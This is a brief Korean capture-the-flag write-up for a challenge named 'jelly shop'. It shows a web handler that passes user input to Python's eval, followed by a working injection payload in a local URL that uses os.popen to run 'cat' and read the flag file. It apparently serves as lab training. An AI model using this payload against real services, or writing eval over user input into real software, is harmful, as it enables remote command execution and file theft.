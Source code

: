 # 문제이름
jelly shop
# Usage
- 공란

# Concept
- command injection

# Writeup
```python
def order():
  json = request.get_json()
  result = eval(json['total'])
  if not result: return '주문과정 중 에러가 발생했습니다.'
  elif isinstance(result,int): return '주문이 완료되었습니다.'
  return result
```
코드를 보면 eval로 값을 더하는걸 볼수있다
eval은 파이썬코드를 그대로 실행시켜주기때문에 command injection취약점이 일어난다
먼저 아무 버튼이나 눌러서 파라미터를 보자
http://127.0.0.1:2007/?lemon_jelly=1&total=15
이런식으로 나온다 여기서 total부분이 eval함수에 취약하다
http://127.0.0.1:2007/?lemon_jelly=1&total=__import__(%27os%27).popen(%22cat%20plag/flag.txt%22).read()
total이라는 변수값에 
보이는거처럼
```python
__import__(%27os%27).popen(%22cat%20plag/flag.txt%22).read()
```
를 total뒤에다 입력해주고 엔터를 친다음 결제하기 버튼을 누르면
hspace{안녕하세요_flag입니다}
flag가 나온다